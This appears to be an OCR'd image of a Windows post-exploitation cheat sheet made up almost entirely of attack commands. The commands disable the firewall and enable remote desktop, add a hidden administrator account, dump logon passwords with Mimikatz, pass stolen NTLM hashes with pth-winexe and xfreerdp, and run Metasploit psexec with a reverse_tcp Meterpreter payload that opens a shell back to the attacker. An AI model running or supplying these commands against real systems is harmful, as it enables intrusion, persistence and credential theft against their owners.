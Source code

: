 netsh firewall set service remoteadmin enable

netsh firewall set service remotedesktop enable

# Turn Off Windows Firewall

netsh firewall set opmode disable

# Meterpreter VNC\RDP

#https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/

run getgui -u admin -p 1234

run vnc -p 5043

# Add New user in Windows

net user test 1234 /add

net localgroup administrators test /add

# Mimikatz use

git clone https://github.com/gentilkiwi/mimikatz.git

privilege::debug

sekurlsa::logonPasswords full

# Passing the Hash

git clone https://github.com/byt3bl33d3r/pth-toolkit

pth-winexe -U hash //IP cmd

or

apt-get install freerdp-x11

xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

or

meterpreter > run post/windows/gather/hashdump

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::

msf > use exploit/windows/smb/psexec

msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp

msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c

msf exploit(psexec) > exploit
